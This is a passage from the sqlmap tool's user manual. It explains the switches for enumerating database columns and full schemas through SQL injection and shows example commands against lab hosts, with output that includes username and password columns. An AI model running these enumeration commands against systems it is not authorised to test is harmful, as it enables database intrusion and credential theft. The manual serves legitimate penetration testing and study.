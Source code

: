 You can also provide the switch `--exclude-sysdbs` to exclude all system databases.

Note that on Oracle you have to provide the `TABLESPACE_NAME` instead of the database name.

### Enumerate database table columns

Switch and options: `--columns`, `-C`, `-T` and `-D`

When the session user has read access to the system table containing information about database's tables, it is possible to enumerate the list of columns for a specific database table. sqlmap also enumerates the data-type for each column. 

This feature depends on option `-T` to specify the table name and optionally on `-D` to specify the database name. When the database name is not specified, the current database name is used. You can also provide the `-C` option to specify the table columns name like the one you provided to be enumerated.

Example against a SQLite target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/sqlite/get_int.php?id=1" -\
-columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| id      | INTEGER |
| name    | TEXT    |
| surname | TEXT    |
+---------+---------+
```

Note that on PostgreSQL you have to provide `public` or the name of a system database. That's because it is not possible to enumerate  other databases tables, only the tables under the schema that the web application's user is connected to, which is always aliased by `public`. 

### Enumerate database management system schema

Switches: `--schema` and `--exclude-sysdbs`

User can retrieve a DBMS schema by using this switch. Schema listing will contain all databases, tables and columns, together with their respective types. In combination with `--exclude-sysdbs` only part of the schema containing non-system databases will be retrieved and shown.

Example against a MySQL target:

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs

[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
```